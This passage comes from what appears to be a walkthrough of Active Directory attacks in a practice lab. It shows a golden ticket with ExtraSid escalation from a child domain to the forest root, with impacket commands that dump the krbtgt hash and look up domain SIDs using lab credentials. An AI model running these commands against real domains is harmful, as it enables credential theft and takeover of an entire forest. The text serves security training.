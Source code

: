 
- This create a golden ticket for the forest enterprise admin.
- Log into the forest and get the target info (default administrator RID: 500)
- All the job is done with one command, if you are lazy you don’t even need to understand x)

## Golden ticket + ExtraSid

- We have done the exploitation on one command with impacket raiseChild.py, now let’s just do the same but step by step and create the golden ticket.
- Full explanation on the attack can be found here : [https://adsecurity.org/?p=1640](https://adsecurity.org/?p=1640)
- First dump the krbtgt of the domain we own
```
# dump child ntds and get krbtgt NT hash
impacket-secretsdump -just-dc-user north/krbtgt 
north.sevenkingdoms.local/eddard.stark:'FightP3aceAndHonor!'@192.168.56.11
```
![screenshot](pics/krbtgt.png)


- Now get the child and parent domain SID
```
# dump child domain SID 
impacket-lookupsid  -domain-sids north.sevenkingdoms.local/eddard.stark:'FightP3aceAndHonor!'@192.168.56.11 0
```
![screenshot](pics/lookupsid1.png)

```
# dump parent domain SID 
impacket-lookupsid  -domain-sids north.sevenkingdoms.local/eddard.stark:'FightP3aceAndHonor!'@192.168.56.10 0
```
![screenshot](pics/lookupsid2.png)
